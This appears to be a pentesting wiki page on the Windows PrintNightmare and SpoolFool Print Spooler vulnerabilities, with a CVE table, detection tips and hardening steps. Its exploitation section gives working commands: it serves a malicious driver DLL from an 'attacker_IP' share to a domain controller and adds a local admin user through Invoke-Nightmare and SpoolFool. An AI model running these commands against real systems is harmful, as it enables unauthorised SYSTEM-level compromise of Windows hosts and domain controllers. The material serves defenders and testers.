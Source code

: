 # PrintNightmare (Windows Print Spooler RCE/LPE)


> PrintNightmare is the collective name given to a family of vulnerabilities in the Windows **Print Spooler** service that allow **arbitrary code execution as SYSTEM** and, when the spooler is reachable over RPC, **remote code execution (RCE) on domain controllers and file servers**. The most-widely exploited CVEs are **CVE-2021-1675** (initially classed as LPE) and **CVE-2021-34527** (full RCE). Subsequent issues such as **CVE-2021-34481 (“Point & Print”)** and **CVE-2022-21999 (“SpoolFool”)** prove that the attack surface is still far from closed.

---

## 1. Vulnerable components & CVEs

| Year | CVE | Short name | Primitive | Notes |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Patched in June 2021 CU but bypassed by CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx allows authenticated users to load a driver DLL from a remote share|
|2021|CVE-2021-34481|“Point & Print”|LPE|Unsigned driver installation by non-admin users|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Arbitrary directory creation → DLL planting – works after 2021 patches|

All of them abuse one of the **MS-RPRN / MS-PAR RPC methods** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) or trust relationships inside **Point & Print**.

## 2. Exploitation techniques

### 2.1 Remote Domain Controller compromise (CVE-2021-34527)

An authenticated but **non-privileged** domain user can run arbitrary DLLs as **NT AUTHORITY\SYSTEM** on a remote spooler (often the DC) by:

```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
       -f \
       '\\attacker_IP\share\evil.dll'
```
```
Popular PoCs include **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) and Benjamin Delpy’s `misc::printnightmare / lsa::addsid` modules in **mimikatz**.

### 2.2 Local privilege escalation (any supported Windows, 2021-2024)

The same API can be called **locally** to load a driver from `C:\Windows\System32\spool\drivers\x64\3\` and achieve SYSTEM privileges:

```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
```
### 2.3 SpoolFool (CVE-2022-21999) – bypassing 2021 fixes

Microsoft’s 2021 patches blocked remote driver loading but **did not harden directory permissions**. SpoolFool abuses the `SpoolDirectory` parameter to create an arbitrary directory under `C:\Windows\System32\spool\drivers\`, drops a payload DLL, and forces the spooler to load it:

```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
```
> The exploit works on fully-patched Windows 7 → Windows 11 and Server 2012R2 → 2022 before February 2022 updates 

---

## 3. Detection & hunting

* **Event Logs** – enable the *Microsoft-Windows-PrintService/Operational* and *Admin* channels and watch for **Event ID 808** “The print spooler failed to load a plug-in module” or for **RpcAddPrinterDriverEx** messages.
* **Sysmon** – `Event ID 7` (Image loaded) or `11/23` (File write/delete) inside `C:\Windows\System32\spool\drivers\*` when the parent process is **spoolsv.exe**.
* **Process lineage** – alerts whenever **spoolsv.exe** spawns `cmd.exe`, `rundll32.exe`, PowerShell or any unsigned binary .

## 4. Mitigation & hardening

1. **Patch!** – Apply the latest cumulative update on every Windows host that has the Print Spooler service installed.
2. **Disable the spooler where it is not required**, especially on Domain Controllers:
   ```powershell
   Stop-Service Spooler -Force
   Set-Service Spooler -StartupType Disabled
   ```
3. **Block remote connections** while still allowing local printing – Group Policy: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Restrict Point & Print** so only administrators can add drivers by setting the registry value:
   ```cmd
   reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
           /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
   ```
   Detailed guidance in Microsoft KB5005652 

---

## 5. Related research / tools

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules  
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)  
* SpoolFool exploit & write-up  
* 0patch micropatches for SpoolFool and other spooler bugs  

---

**More reading (external):** Check the 2024 walk-through blog post – [[https://www.hackingarticles.in/understanding-printnightmare-vulnerability/|Understanding PrintNightmare Vulnerability]]


## References

* Microsoft – *KB5005652: Manage new Point & Print default driver installation behavior*  
  <https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*  
  <https://github.com/ly4k/SpoolFool>

